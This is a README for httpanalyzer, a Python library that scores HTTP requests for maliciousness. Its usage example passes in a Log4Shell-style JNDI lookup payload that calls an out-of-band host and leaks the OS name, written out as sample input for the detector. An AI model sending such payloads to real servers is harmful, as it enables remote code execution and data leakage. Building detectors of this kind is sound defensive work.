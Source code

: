 <h1 align="center">httpanalyzer</h1>

<p align="center">
<a href="https://www.python.org/"><img alt="Language" src="https://img.shields.io/badge/Language-Python-blue?style=for-the-badge&logo=python"></a>
<a href="https://mit-license.org/"><img alt="License" src="https://img.shields.io/pypi/l/httpanalyzer?color=blueviolet&style=for-the-badge"></a>
<a href="https://pypi.org/project/httpanalyzer/"><img alt="Version" src="https://img.shields.io/pypi/v/httpanalyzer?label=version&logo=pypi&style=for-the-badge"></a>
<a href="https://github.com/MartinMerkli/httpanalyzer"><img alt="Stars" src="https://img.shields.io/github/stars/martinmerkli/httpanalyzer?color=lightgrey&logo=github&style=for-the-badge"></a>
<a href="https://github.com/MartinMerkli/httpanalyzer/commits/main"><img alt="Commit Activity" src="https://img.shields.io/github/commit-activity/m/martinmerkli/httpanalyzer?color=green&style=for-the-badge"></a>
</p>

This is a python library for analyzing http-request. Useful to reduce unnecessary traffic. 

## License

This project is licensed under the MIT-license. See LICENSE.txt for more information.

## Installing

Make sure pip3 is installed and up to date before executing this command.

```
pip3 install httpanalyzer
```

## Usage

Import the library:

```
import httpanalyzer
```

Create a new request instance:

```
instance = httpanalyzer.Request(http_headers, ip, url, admin_panels)
```

Print the malicious rating:

```
print(instance.malicious())
```

### Example

```
import httpanalyzer

instance = httpanalyzer.Request(
    {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
     'Accept-Encoding': 'gzip, deflate, br',
     'Accept-Language': 'en-US,en;q=0.5',
     'Connection': 'keep-alive',
     'Host': '127.0.0.1:80',
     'User-Agent': 'curl/7.82.0'},
    '159.223.2g05.51',
    '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
    ['wp-content', 'wp-config', 'wp-includes']
)
print(f"Malicious rating: {instance.malicious() * 100}%")
```

### Admin Panels

To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes']`.

### Flask

httpanalyzer natively supports flask request objects:

```
instance = httpanalyzer.FlaskRequest(flask.request)
```

## Dependencies

Python 3.6 or newer is required. Older versions do not work.
